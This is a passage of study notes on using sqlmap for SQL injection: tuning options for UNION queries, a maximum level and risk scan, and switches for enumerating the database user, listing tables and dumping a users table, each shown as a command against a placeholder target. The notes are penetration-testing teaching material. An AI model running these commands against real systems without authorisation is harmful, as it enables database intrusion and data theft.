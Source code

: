 - `--union-cols=5`: Manually set number of columns. 
- `--union-char='a'`: Override default NULL filler.
- `--union-from=users`: Add FROM clause manually for DBs like Oracle.
#### Key Takeaway

Use tuning options only when default detection fails or for special query formats. Increased levels enhance detection but slow down execution.

**Common Example**

```bash
sqlmap -u "http://site.com/page.php?id=1" --level=5 --risk=3 --technique=BEU --string="Welcome" -v 3
```

This command maximizes payloads, filters only Boolean/Error/Union injections, matches based on the word "Welcome", and provides detailed debug output.

# Database Enumeration with SQLMap

Enumeration is a core phase in SQLi exploitation. Once exploitability is confirmed, SQLMap is used to extract database information systematically.
### Basic Enumeration Switches

- `--banner` → DBMS version info (e.g., `VERSION()`)    
- `--current-user` → Current database user (e.g., `CURRENT_USER()`)
- `--current-db` → Current database in use (e.g., `DATABASE()`)
- `--is-dba` → Checks if user has DBA privileges

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --banner --current-user --current-db --is-dba
```
### Table Discovery

- `--tables` → Lists tables in the specified database
- `-D <dbname>` → Specify the database name

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --tables -D testdb
```
### Data Dumping

- `--dump` → Dumps all data from the specified table    
- `-T <table>` → Specify the table
- `-D <dbname>` → Specify the database

**Example:**

```bash
sqlmap -u "http://target.com/?id=1" --dump -T users -D testdb
```
